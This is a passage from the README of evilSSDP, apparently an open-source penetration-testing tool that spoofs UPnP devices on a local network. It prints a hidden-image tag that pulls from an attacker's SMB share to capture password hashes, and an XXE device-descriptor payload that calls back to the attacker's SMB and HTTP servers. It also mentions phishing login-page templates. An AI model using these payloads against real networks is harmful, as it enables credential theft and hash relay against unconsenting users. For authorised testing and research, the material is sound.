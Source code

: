 A key line in this file contains the 'Presentation URL'. This is what will load in a user's browser if they decide to manually double-click on the UPNP device. evilSSDP will host this file automatically (present.html from the chosen template folder), plugging in your source IP address into an IMG tag to access an SMB share that you can host with tools like [Impacket](https://www.coresecurity.com/corelabs-research/open-source-tools/impacket), [Responder](https://github.com/SpiderLabs/Responder), or [Metasploit](https://www.rapid7.com/db/modules/auxiliary/server/capture/smb).

The IMG tage looks like this:

```
<img src="file://///$localIp/smb/hash.jpg" style="display: none;" /><br>
```

# Zero-Day Hunting
By default, this tool essentially forces devices on the network to parse an XML file. A well-known attack against applications that parse XML exists - [XML External Entity Processing (XXE)](https://www.owasp.org/index.php/XML_External_Entity_%28XXE%29_Processing).

This type of attack against UPNP devices in likely overlooked - simply because the attack method is complex and not readily apparent. However, evilSSDP makes it very easy to test for vulnerable devices on your network. Simply run the tool and look for a big `[XXE VULN!!!]` in the output. NOTE: using the xxe template will likely not spawn visibile evil devices across the LAN, it is meant only for zero-interaction scenarios.

This is accomplished by providing a Device Descriptor XML file with the following content:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file://///$smbServer/smb/hash.jpg" >
<!ENTITY xxe-url SYSTEM "http://$localIp:$localPort/ssdp/xxe.html" >
]>
<hello>&xxe;&xxe-url;</hello>
```

When a vulnerable XML parser reads this file, it will automatically mount the SMB share (allowing you to crack the hash or relay) as well as access an HTTP URL to notify you it was discovered. The notification will contain the HTTP headers and an IP address, which should give you some info on the vulnerable application. If you see this, please do contact the vendor to fix the issue. Also, I would love to hear about any zero days you find using the tool. And please do mention the tool in your CVE.


# Thanks
- Thanks to ZeWarren and his project [here](https://github.com/ZeWaren/python-upnp-ssdp-example). I used this extensively to understand how to get the basics for SSDP working.
- Thanks to the pentest geek and their phishing templates [here](https://github.com/pentestgeek/phishing-frenzy-templates). I used the Office365 login page from there.
- Thanks to [Dwight Hohnstein](https://github.com/djhohnstein) for his great work to implement cool features like basic authentication, realm support, and automatic redirection in evilSSDP. He kindly wrote and provided code to make this work.
- Thanks to the following folks for submitting bugfixes:
    - Nadar, Ender Akbas

Also thanks to Microsoft for developing lots of fun insecure things to play with.

*This is a security research tool. Use only where granted explicit permission from the network owner.*
